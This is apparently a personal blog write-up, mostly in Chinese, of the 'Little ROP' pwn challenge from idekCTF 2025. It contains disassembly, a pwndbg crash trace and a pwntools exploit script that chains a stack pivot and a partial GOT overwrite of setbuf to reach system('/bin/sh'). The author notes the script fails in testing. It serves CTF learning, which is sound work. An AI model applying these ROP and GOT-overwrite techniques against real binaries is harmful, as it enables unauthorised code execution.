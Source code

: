 ```yaml
---
title: "Write-ups: idekCTF 2025"
published: 2025-09-19
updated: 2025-09-19
description: "Write-ups for idekCTF 2025 pwn aspect."
image: "https://cdn.jsdmirror.com/gh/CuB3y0nd/picx-images-hosting@master/.2h8mjvhi43.avif"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Little ROP

## Information

- Category: Pwn
- Points: 362

## Description

> No PIE, no canary. Perfect setup for ROP. Show me what you can do!

## Write-up 1

840+ 支队伍，结果这题只有 27 个解，说实话一开始以为是签到题，结果没想到那么难……总之这题质量还是不错的，后期一定要回头深挖一下……

这题解法还挺多的，据我所知就有三种方法，我这里依次记录，就叫 Write-ups 1, 2, 3 吧，学习一下。

首先这个方法 1，也是我当时想到的方法，就是覆盖 `setbuf` 的 got 表为 one_gadget 的地址。但是后来发现找不到合适的 one_gadget……

这里记录的是和这个方法差不多的变体，注意到下面这个函数里面分别调用了三次 setbuf，用到了两个参数，其中 `stdin`, `stdout`, `stderr` 都位于 bss 段，作为 rdi 的参数。

```c
void __fastcall setup(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
}
```

这就给了我们一个控制 rdi 的 gadget，我们可以把 `/bin/sh` 写在已知的地址，选一个 rdi gadget 用于设置 rdi 。

```asm
; Attributes: bp-based frame

; void __fastcall setup(int argc, const char **argv, const char **envp)
public setup
setup proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
mov     rax, cs:stdin@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stdout@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stderr@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
nop
pop     rbp
retn
; } // starts at 401156
setup endp
```

之后我们 partial overwrite setbuf 的低三字节为 `system` 的偏移，就有 $1/16$ 的概率命中 system 。

但是实际调试的时候发现在进入 `do_system` 后的栈操作会将我们本就不高的栈地址一直缩小，最后 RSP 变成了只读地址，然后向只读地址之写入数据，导致访问不可写地址而 abort 。

```asm showLineNumbers=false
Program received signal SIGSEGV, Segmentation fault.
0x00007fee1bf5b93e in do_system (line=0x404010 "") at ../sysdeps/posix/system.c:102
102 in ../sysdeps/posix/system.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
 RAX  0xcdd2ecfdc1a6800
 RBX  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RCX  0x7fee1c01f7e2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RSI  0
 R8   0x7fee1c126f10 (initial+16) ◂— 4
 R9   0x7fee1c147040 (_dl_fini) ◂— endbr64
 R10  0x7fee1bf115e8 ◂— 0xf001200001a64
 R11  0x246
 R12  0x7fff1d8a7218 —▸ 0x7fff1d8a7edb ◂— '/home/user/chall'
 R13  0x7fee1c1277a0 (quit) ◂— 0
 R14  0x7fee1c127840 (intr) ◂— 0
 R15  0x7fee1c17b040 (_rtld_global) —▸ 0x7fee1c17c2e0 ◂— 0
 RBP  0
 RSP  0x403c80 ◂— 0
 RIP  0x7fee1bf5b93e (do_system+62) ◂— mov qword ptr [rsp + 0x378], rax
────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────
   0x7fee1bf5b926 <do_system+38>     punpcklqdq xmm1, xmm2
   0x7fee1bf5b92a <do_system+42>     push   rbx
   0x7fee1bf5b92b <do_system+43>     mov    rbx, rdi
   0x7fee1bf5b92e <do_system+46>     sub    rsp, 0x388
   0x7fee1bf5b935 <do_system+53>     mov    rax, qword ptr fs:[0x28]               RAX, [0x7fee1bf08768]
 ► 0x7fee1bf5b93e <do_system+62>     mov    qword ptr [rsp + 0x378], rax           [0x403ff8] <= 0xcdd2ecfdc1a6800
   0x7fee1bf5b946 <do_system+70>     xor    eax, eax                               EAX => 0
   0x7fee1bf5b948 <do_system+72>     mov    dword ptr [rsp + 0x18], 0xffffffff     [0x403c98] <= 0xffffffff
   0x7fee1bf5b950 <do_system+80>     mov    qword ptr [rsp + 0x180], 1             [0x403e00] <= 1
   0x7fee1bf5b95c <do_system+92>     mov    dword ptr [rsp + 0x208], 0             [_DYNAMIC+104] <= 0
   0x7fee1bf5b967 <do_system+103>    mov    qword ptr [rsp + 0x188], 0             [0x403e08] <= 0
─────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x403c80 ◂— 0
... ↓        7 skipped
───────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► 0   0x7fee1bf5b93e do_system+62
   1         0x401186 setup+48
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> vmmap 0x403c80+0x378
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
          0x402000           0x403000 r--p     1000   4000 chall_patched
►         0x403000           0x404000 r--p     1000   4000 chall_patched +0xff8
          0x404000           0x405000 rw-p     1000   5000 chall_patched
```

解决方法是在覆盖 setbuf 之后那个 read 执行完栈迁移后再想办法给它迁移到更高的地址去，但是覆盖 setbuf 后继续写 rop 的话会破坏 setbuf 的高位地址……不知道是不是 skill 问题，反正就是有问题……

所以我还有一个想法就是，或许第一次 setbuf 先覆盖为 puts 的地址，泄漏 got 中的 libc，然后再用原先的方式控制 rdi，执行 system 。太懒了，下次再研究……

虽然我测试是失败了，无论是本地还是远程调试 docker 内的 chall，但比赛当天有人用同样的思路，打通了……很奇怪，感觉不可思议……

## Exploit 1

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)

FILE = "./chall"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x4011A9
    leave_ret = 0x4011C0
    ret = 0x4011C1
    control_rdi = 0x401186
    store_binsh = 0x404080
    binsh = 0x404068
    system = libc.sym["system"]

    target.success(f"system: {hex(system)}")
    target.success(f"setbuf@got: {hex(elf.got['setbuf'])}")

    payload = flat(
        b"A" * 32,
        store_binsh,  # first_read rbp (store /bin/sh in `store_binsh - 0x20`)
        read,
        binsh,
        b"/bin/sh\x00",
        b"B" * 0x10,
        store_binsh - 0x30,  # rbp (for more ROP) 0x404040
        read,
        b"C" * 0x10,
        control_rdi,
        b"D" * 0x8,
        elf.got["setbuf"] + 0x20,  # rbp
        read,  # after this, pivot to higher stack...? seems impossible !
        b"\x70\x0d\x05",  # system
    )
    raw_input("DEBUG")
    target.send(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Write-up 2

据说预期解是 `ret2lresolve`，崩溃，留作 TODO，有空再研究。

## Exploit 2

TODO

## Write-up 3

还有一个解是使用 `add dword ptr [rbp - 0x3d], ebx; nop; ret` gadget，后面有空再研究，崩溃的我现在只想躺床上睡一天……

## Exploit 3

TODO
